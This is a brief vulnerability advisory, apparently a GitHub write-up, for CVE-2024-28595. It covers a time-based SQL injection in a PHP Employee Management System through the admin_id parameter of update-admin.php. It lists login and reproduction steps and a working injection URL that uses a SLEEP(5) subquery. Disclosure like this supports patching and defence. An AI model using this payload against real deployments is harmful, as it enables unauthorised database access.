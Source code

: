 # CVE-2024-28595:

## Description:
```Employee Management System v1.0 was discovered to contain a SQL injection vulnerability via the admin_id parameter in update-admin.php.```

## Vulnerability Type:
```SQL Injection```

## Affected Product Code Base:
```https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html```

## Affected Component:
```http://127.0.0.1/taskmatic/index.php```

## Attack Vectors:
```
1. Here we go to : http://127.0.0.1/taskmatic/index.php
2. Now login with default Username and Password.
3. Visit the URL: http://127.0.0.1/taskmatic/update-admin.php?admin_id=3'||(SELECT 0x697a7843 WHERE 5649=5649 AND (SELECT 2097 FROM (SELECT(SLEEP(5)))JzJH))||'
4. Page will load for 5 seconds because of time-based sql injection
```

## Discoverer:
```Shubham Pandey```

## Reference:
```
https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html
```